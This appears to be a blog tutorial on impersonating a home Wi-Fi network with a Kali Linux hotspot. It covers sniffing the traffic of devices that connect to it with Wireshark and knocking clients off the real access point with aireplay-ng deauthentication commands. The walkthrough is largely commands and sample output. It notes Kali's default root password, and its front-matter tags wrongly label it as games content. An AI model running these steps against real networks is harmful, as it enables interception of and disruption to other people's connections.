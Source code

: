 ```yaml
---
tags:
  - games
  - roguelike
  - game-development
  - gaming
---
```





> Disclaimer: I think it goes without saying that you should only be doing this sort of caper on networks you own. But if nothing else it should disuade you from using public Wi-Fi networks.

Download the latest [Kali Linux ISO](https://www.kali.org/downloads/) and create a [bootable USB drive](https://docs.kali.org/downloading/kali-linux-live-usb-install). Restart your computer and boot into Kali via the BIOS.

You need two network connections so tether your phone with a cable leaving the built-in Wi-Fi for your rogue access point.

_Settings > Wi-Fi > options > Turn On Wi-Fi Hotspot..._

Run `nmtui` and edit the hotspot credentials to match your home network.

## Capturing packets
Capturing packets really is as simple as running Wireshark on the Wi-Fi network interface. Try adding a Wireshark filter and visit https://turpin.dev on your compromised device just so you have some known text to search for.

```text
frame contains "turpin"
```

And now we wait for a new device to connect... actually, even established connections re-negotiated periodically but we can make it happen on demand.

## Forcing a reconnection
We _could_ wait but we can also kick out existing sessions by sending a malformed message to the genuine access point.

You'll need two Wi-Fi connections for this: one for the hotspot, one to send malformed packets. So procure a USB-to-Wi-Fi adapter.

List your network interfaces.

```bash
ip a
```

If the built-in Wi-Fi is the hotspot, let's insert the USB Wi-Fi adapter and put it into monitor mode.

```bash
airmon-ng start wlan1
```

Check your network interfaces again and you'll see it has a "mon" suffix. Now see what devices are out there.

```bash
airodump-ng wlan1mon --manufacturer
```

`airodump-ng` lists access points and clients.

```text
CH 2 ][ Elapsed: 30 s ][ 2019-11-02 14:06

BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID

A0:BD:CD:8F:D0:2A -66 39 225 100 11 130 WPA2 CCMP PSK pleasedto

BSSID STATION PWR Rate Lost Frames Probe

(not associated) 5C:AA:FD:25:40:DD -64 0 - 0 28 4 Sonos_fLNwUn2QJ
```

Deauthenticate the target.

```bash
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 wlan1
```

See the [aircrack documentation](https://www.aircrack-ng.org/doku.php?id=deauthentication).

## Tidying up after yourself
When you're done take the network interface out of monitor mode and restart your network. But you can just turn off if you don't care. Should the Kali screensaver kick in the default root password is "toor" (root backwards).

```bash
airmon-ng stop wlan1mon
systemctl restart network-manager.service
```
